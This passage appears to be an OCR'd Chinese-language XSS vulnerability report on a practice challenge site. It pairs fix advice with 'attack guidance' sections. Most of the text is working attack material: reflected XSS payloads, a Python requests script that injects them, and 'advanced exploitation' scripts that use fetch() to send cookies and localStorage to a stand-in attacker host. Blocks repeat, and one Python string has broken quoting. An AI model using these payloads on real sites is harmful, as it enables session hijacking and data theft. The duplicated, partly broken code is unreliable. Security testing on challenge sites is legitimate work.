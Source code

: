 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 严重程度: high
- 验证载荷: "><script>alert(1)</script>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
   - 在参数 keyword 中注入以下payload:
   ```javascript
   "><script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?writing=wait'
   params = {'keyword': '"><script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 严重程度: critical
- 验证载荷: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?writing=wait'
   params = {'keyword': '<script>fetch('http://attacker.com/?cookie='+document.cookie)</script>'}
   response = requests.get(url, params=params)
   ```
